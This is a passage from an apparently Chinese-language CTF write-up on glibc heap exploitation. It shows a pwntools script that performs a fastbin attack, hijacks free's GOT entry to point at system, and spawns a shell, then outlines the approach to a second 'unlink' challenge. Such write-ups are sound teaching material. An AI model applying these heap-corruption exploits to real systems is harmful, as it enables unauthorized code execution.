 ```python

if args.G:
    gdb.attach(p)

def add(size,content):
    sla(':','1')
    sla(':',str(size))
    sla(':',content)

def edit(idx, content):
    sla(':','2')
    sla(':',str(idx))
    sla(':',str(len(content)))
    sla(':',content)

def free(idx):
    sla(':','3')
    sla(':',str(idx))

add(0x68,b'6')#0 用于写free的got为system
add(0x68,b'6')#1 用于存放binsh和覆盖2
add(0x68,b'6')#2 用于构造fastbin attack，写heap0指针为free的got表
free(2)       #释放到fastbin，进行fastbin attack，具体方式是修改fd为heap指针附近的地址

edit(1,b'/bin/sh\x00'+b'\x00'*0x60+p64(0x71)+p64(0x6020ad))
#在heap1写binsh，0x6020ad是刚才定位到的fake heap

add(0x68,b'6')#把2恢复回来
add(0x68,b'6')#创建fake heap，实际上是heap指针数组前面0x33
edit(3,b'\x00'*0x23+p64(elf.got['free']))   #覆盖heap0为free的got表0x602018
edit(0,p64(elf.plt['system']))#此时heap0的指针已经被修改指向了free的got表0x602018，
# 直接往上面写数据协商system的plt表即可完成劫持，覆盖free的got为system的plt

free(1)#执行system（原来是free）,heap1指向的位置已经被写'/bin/sh'字符串
ia()

```

![image-20240711214005216](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407112140355.png)

## 2.题目：泄漏main_arena，再挟持got表

题目地址：[[SUCTF 2018 招新赛\]unlink | NSSCTF](https://www.nssctf.cn/problem/2334)

### 思路：

1. 由于没有UAF，所以构造double free让**两个指针指向同一个chunk**，进而利用unsortedbin来泄漏libc基地址。
2. 在heaplist前面**伪造chunk**，利用堆溢出覆盖heaplist实现**任意地址写**，进而覆盖free函数的got表指向system函数。

### 分析：
